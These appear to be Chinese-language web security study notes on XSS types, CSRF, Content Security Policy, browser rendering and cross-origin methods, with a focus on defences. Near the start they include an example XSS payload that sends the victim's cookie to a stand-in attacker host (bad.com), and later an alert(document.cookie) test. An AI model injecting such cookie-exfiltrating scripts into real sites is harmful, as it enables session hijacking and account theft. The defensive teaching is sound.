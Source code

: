 1、XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。
举一个简单的例子##
在 a.com 的搜索输入框中输入如下内容，并提交请求
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
如果前端没有进行过滤，浏览器地址可能变为：
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。
XSS 攻击类型一般分为三种：
1、反射型 XSS
反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。
2、储存型 XSS
存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。
3、DOM Based XSS
基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。
防范 XSS
对于 XSS 攻击，我们可以做如下防范：
1、输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。
2、输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。
3、HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
4、WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。

## CSRF
CSRF (Cross Site Request Forgery)，即跨站请求伪造。简单的理解是，攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。<br>
举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中发送本地保存的 cookie 到网址 A，A 网站收到 cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。<br>

### 防范 CSRF
对于 CSRF 攻击，我们可以做如下防范：<br>
1、验证码。应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。<br>
2、Referer Check。HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 Referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。<br>
3、Anti CSRF Token。目前比较完善的解决方案是加入 Anti-CSRF-Token，即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token 和 cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。<br>

### CSP(内容安全策略)

CSP(Content Security Policy) 即内容安全策略，主要目标是减少、并有效报告 XSS 攻击，其实质就是让开发者定制一份白名单，告诉浏览器允许加载、执行的外部资源。即使攻击者能够发现可从中注入脚本的漏洞，由于脚本不在白名单之列，浏览器也不会执行该脚本，从而达到了降低客户端遭受 XSS 攻击风险和影响的目的。<br>
默认配置下，CSP 甚至不允许执行内联代码 (<script> 块内容，内联事件，内联样式)，以及禁止执行eval(), setTimeout 和 setInterval。为什么要这么做呢？因为制定来源白名单依旧无法解决 XSS 攻击的最大威胁：内联脚本注入。浏览器无法区分合法内联脚本与恶意注入的脚本，所以通过默认禁止内联脚本来有效解决这个问题。<br>
事实上我们并不推荐使用内联脚本混合的开发方式，使用外部资源，浏览器更容易缓存，对开发者也容易阅读理解，并且有助于编译和压缩。当然，如果不得不需要内联脚本和样式，可以通过设置 unsafe-inline，来解除这一限制。<br>

## XSS(Cross Site Scripting)是跨站脚本攻击，为了区分CSS，所以缩写为XSS。XSS攻击方式是往Web页面插入恶意的 JavaScript 代码，当用户浏览网页的时候，插入的代码就是被执行，从而达到攻击的目的。

其中应用比较多的一个就是，在网页一些公用的交互区域。比如搜索的文本框，除了可以输入一些关键字，还可以输入一些 JavaScript 代码，一旦代码点击搜索，代码就会被执行，达到攻击的目的。如下例子<br>
```<script>alert(document.cookie);</script>```

在文本框中输入以上代码，然后点击提交，就会把用户的cookie弹出来。<br>
### XSS防范
1.将重要的cookies标记为HTTP ONLY，让JavaScript代码无法调用，只有http能调用。或者将重要的信息保存在session里面。<br>
2.只允许用户输入我们期望的数据。如消费金额框只能输入数字和小数点。<br>
3.对数据进行加密处理。<br>
4.过滤或者移除特殊的HTML标签，过滤JavaScript代码等。<br>
### 2、CSRF（Cross-site request forgery）是跨站请求伪造。XSS利用站点内的信任用户，与XSS不同，CSRF是通过伪装来自受信任用户，在受信任的网站进行请求，盗取信息。其实就是攻击者盗用了受害者的身份，以受害者的名义向网站发送恶意请求。

### CSRF的防御
1.在表单里增加Hash值，以认证这确实是用户发送的请求，然后在服务器端进行Hash值验证。<br>
2.验证码：每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。<br>
3.修改，增加重要信息，比如密码，个人信息的操作，尽量使用post。避免使用get把信息暴露在url上面。<br>
5.渲染过程，原理<br>
1.浏览器通过DNS对URL进行解析，找出对应的IP地址；<br>
2.向IP地址发起网络请求，进行http协议会话：客户端发送报头（请求报头），服务端回馈报头（响应报头）<br>
3.服务器根据请求，交给后台处理，处理完成后返回文件数据，浏览器接收文件数据（HTML、JS、CSS、图象等）；返回一个页面（根据页面上的外链的URL重新发送请求获取）<br>
4.浏览器接收文件完毕，对加载到的资源进行语法解析，以及相应的内部数据结构（网页渲染）<br>
### 跨域
1、 jsonp<br>
2、 document.domain + iframe<br>
3、 location.hash + iframe<br>
4、 window.name + iframe<br>
5、 postMessage<br>
6、 跨域资源共享（CORS）<br>
7、 nginx代理<br>
8、 nodejs中间件代理<br><br>
9、 WebSocket协议<br>
